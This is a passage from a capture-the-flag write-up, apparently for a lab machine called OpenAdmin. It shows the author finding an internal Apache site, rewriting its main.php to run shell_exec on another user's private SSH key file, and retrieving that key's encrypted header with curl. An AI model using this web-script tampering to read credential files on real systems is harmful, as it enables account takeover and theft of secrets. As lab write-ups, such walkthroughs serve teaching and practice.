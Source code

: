           <div class = "container">

            <form class = "form-signin" role = "form"
                action = "<?php echo htmlspecialchars($_SERVER['PHP_SELF']);
                ?>" method = "post">
                <h4 class = "form-signin-heading"><?php echo $msg; ?></h4>
                <input type = "text" class = "form-control"
                  name = "username"
                  required autofocus></br>
                <input type = "password" class = "form-control"
                  name = "password" required>
                <button class = "btn btn-lg btn-primary btn-block" type = "submit"
                  name = "login">Login</button>
            </form>

          </div>

      </body>
    </html>

We can see that the `main.php` script just print `joanna`'s private SSH key. And
the script is only checking if the `username` parameter is set. But we are
unable to access the site. We check the Apache configuration to see that the
port is `52846`.

    :::text
    cat /etc/apache2/sites-enabled/internal.conf
    Listen 127.0.0.1:52846

    <VirtualHost 127.0.0.1:52846>
        ServerName internal.openadmin.htb
        DocumentRoot /var/www/internal

    <IfModule mpm_itk_module>
    AssignUserID joanna joanna
    </IfModule>

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

    </VirtualHost>

We rewrote `main.php` in order to suppress the parameter check:

    :::text
    jimmy@openadmin:/var/www/internal$ cat main.php
    <?php
    $output = shell_exec('cat /home/joanna/.ssh/id_rsa');
    echo "<pre>$output</pre>";
    ?>

And we call the page and get `joanna's` private SSH key.

    :::text
    jimmy@openadmin:/var/www/internal$ curl 127.0.0.1:52846/main.php
    <pre>-----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D
